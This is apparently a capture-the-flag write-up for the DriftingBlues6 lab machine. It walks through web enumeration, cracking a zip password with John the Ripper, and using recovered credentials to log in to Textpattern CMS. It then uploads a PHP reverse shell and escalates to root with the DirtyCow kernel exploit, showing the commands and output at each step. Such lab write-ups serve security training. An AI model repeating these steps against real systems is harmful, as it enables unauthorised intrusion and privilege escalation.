## DriftingBlues6: Writeup

Scanning the network with nmap, there's just one port open:

```bashPORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: driftingblues
```

Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/01 13:34:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/index.html           (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.122.219/textpattern/]
Progress: 4579 / 4615 (99.22%)===============================================================
```

Check out `robots.txt` :

```bash
$ curl -s http://192.168.122.219/robots.txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

With the hint in mind, fuzz with `.zip` extension:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x zip
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              zip
[+] Timeout:                 10s
===============================================================
2023/03/01 13:38:23 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/spammer.zip          (Status: 200) [Size: 179]
```

Download `spammer.zip` and check what's inside:

```bash
$ unzip -l spammer.zip
Archive:  spammer.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2021-03-15 21:46   creds.txt
---------                     -------
       15                     1 file
```

That looks promising. Open it:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

It's password protected. Get the hash with zip2john, then crack using rockyou.txt:

```bash
$ zip2john spammer.zip > spammer.hash
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spammer.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2023-03-01 13:41) 100.0g/s 2048Kp/s 2048Kc/s 2048KC/s christal..michelle4
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Unzip the contents and read them:

```bash
$ cat creds.txt
mayer:lionheart 
```

Now I have creds to something.
I check out the /textpattern/textpattern endpoint. I get a login screen:

![1](screenshots/1.png)

I use these creds and now have admin privileges over this CMS. In the corner, I can see the version:

![2](screenshots/2.png)

It's Textpattern CMS (v4.8.3). I check searchsploit and find this version is vulnerable:

```bash
$ searchsploit textpattern 4.8
-----------------------------------
 Exploit Title |  Path
-----------------------------------
Textpattern 4.8.3 - Remote code execution (Authenticated)(2)                   | php/webapps/49620.py
TextPattern CMS 4.8.3 - Remote Code Execution (Authenticated)                  | php/webapps/48943.py
Textpattern CMS 4.8.4 - 'Comments' Persistent Cross-Site Scripting (XSS)       | php/webapps/49616.txt
TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)               | php/webapps/49996.txt
TextPattern CMS 4.8.7 - Remote Command Execution (RCE) (Authenticated)         | php/webapps/50415.txt
TextPattern CMS 4.8.7 - Stored Cross-Site Scripting (XSS)                      | php/webapps/49975.txt
-----------------------------------
Shellcodes: No Results
Papers: No Results
```

I examined some of the RCE exploits. They just involve uploading a file and then calling it from the `/files` endpoint. So I can just upload a php reverse shell (like this [one](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) ) and then execute it to get a shell:

![3](screenshots/3.png)

After I upload my shell, I set up a listener and then fetch the webpage here:

http://192.168.122.219/textpattern/files/revshell.php

I get a shell as www-data:

![4](screenshots/4.png)

```bash
www-data@driftingblues:/home$ whwhoami
www-data
www-data@driftingblues:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@driftingblues:/home$ hostname
driftingblues
www-data@driftingblues:/home$ hostname -I
192.168.122.219
```

`local.txt` is not here and there are no users in the `/home` directory. I checked the contents of `/etc/passwd` to see who is on here:

```bash
www-data@driftingblues:/opt$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

Just service accounts. I run linpeas and look for a kernel exploit. ![DirtyCow](https://github.com/firefart/dirtycow) is the first choice.
I bring it onto the machine, compile it and then run it:

```bash
www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f5fab02f000
```
![5](screenshots/5.png)

The shell halts at this point, which is expected behavior. I fetch the webpage again and get another shell. I switch users to the (hopefully) added user with root privileges. It works, and I collect the only flag here, `proof.txt`:

```bash
www-data@driftingblues:/$ su firefart
Password: password

firefart@driftingblues:/# cd /root
firefart@driftingblues:~# ls -la
total 20
drwx------  3 firefart root 4096 Mar  1 12:32 .
drwxr-xr-x 23 firefart root 4096 Mar 17  2021 ..
drwx------  2 firefart root 4096 Mar 17  2021 .aptitude
-rw-------  1 firefart root  607 Aug  9  2022 .bash_history
-rw-r--r--  1 firefart root   33 Mar  1 12:32 proof.txt
firefart@driftingblues:~# cat proof.txt
6f52f239d99ec0d454add1664360bd42
firefart@driftingblues:~# whoami
firefart
firefart@driftingblues:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:~# hostname
driftingblues
firefart@driftingblues:~# hostnam e-I
bash: hostnam: command not found
firefart@driftingblues:~# hostname -I
192.168.122.219
```

![6](screenshots/6.png)

